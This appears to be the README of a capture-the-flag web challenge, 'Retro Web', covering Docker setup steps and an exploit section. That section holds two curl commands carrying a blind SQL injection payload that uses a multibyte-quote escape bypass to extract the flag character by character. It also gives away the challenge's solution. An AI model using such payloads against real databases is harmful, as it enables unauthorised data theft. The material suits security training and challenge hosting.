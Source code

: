 Retro Web
---------

Not so easy SQL injection at all.

# Question Text

```
It is all in the challenge.

http://ctf.pwn.sg:9180
```

*Creator - quanyang (@quanyang)*

# Setup Guide

0. Install docker on the hosting system
1. Replace the flag in distribute/flag
2. Build the docker image with: `sh dockerbuild.sh`
3. Replace the port 1500 with your desired port in dockerrun.sh
4. Start the docker image: `sh dockerrun.sh`
5. Test the connectivity with netcat.

# Exploit Details

curl 'http://localhost:8180/?search' --data 'username=1%bf%27||(SUBSTR(flag,1,1)in(0x43)%26%26(username)in(0x61646D696E));#&action='

versus

curl 'http://localhost:8180/?search' --data 'username=1%bf%27||(SUBSTR(flag,1,1)in(0x42)%26%26(username)in(0x61646D696E));#&action='
